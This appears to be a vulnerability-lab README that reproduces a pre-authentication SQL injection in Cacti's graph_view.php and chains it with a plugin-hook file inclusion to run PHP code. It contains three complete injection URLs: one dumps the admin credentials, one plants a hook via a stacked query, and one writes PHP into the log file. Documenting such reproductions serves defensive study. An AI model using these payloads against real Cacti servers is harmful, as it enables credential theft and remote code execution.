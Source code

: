 # Cacti Pre-Auth SQL Injection Leads to RCE (CVE-2023-39361/CVE-2024-31459)

[中文版本(Chinese version)](README.zh-cn.md)

Cacti is a complete network graphing solution designed to harness the power of RRDTool's data storage and graphing functionality, providing network managers with an intuitive interface to network data.

In Cacti versions 1.2.24 and earlier, a critical vulnerability exists in graph_view.php that allows guest users to perform SQL injection via the 'rfilter' parameter. When guest access is enabled, attackers can potentially cause significant damage, including remote code execution.

References:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## Environment Setup

Execute the following command to start a Cacti 1.2.24 server:

```
docker compose up -d
```

After the server starts, you can access the Cacti interface at `http://your-ip:8080`. The default credentials are admin/admin.

Log in as admin and follow the initialization instructions. Simply click the "Next" button repeatedly until you see the success page.

Before exploiting the vulnerability without authentication, you must enable guest access. Log in as admin, navigate to `Configuration -> Authentication`, and enable the guest user:

![](1.png)

## Vulnerability Reproduction

The vulnerability exists in the `grow_right_pane_tree` function in `graph_view.php`. When the 'action' parameter is set to 'tree_content', the user input ('rfilter' parameter) is validated through the `html_validate_tree_vars` function, but this validation only ensures that the input is a valid regular expression and doesn't prevent SQL injection.

The SQL injection occurs because the rfilter parameter is directly inserted into a SQL query with double quotes, allowing attackers to escape the query context and inject malicious SQL code.

To exploit this vulnerability, send a request to the graph_view.php endpoint with the following parameters:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

The output reveals database information and admin account password:

![](2.png)

Since Cacti supports stacked queries, you can leverage this vulnerability along with [CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv) to achieve local file inclusion.

First, add a new plugin hook that points to the `log/cacti.log` file:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

Then, write PHP code to the `log/cacti.log` file using an error-based SQL injection:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

Now, the PHPINFO function will execute and display when accessing the login page, confirming successful remote code execution:

![](3.png)
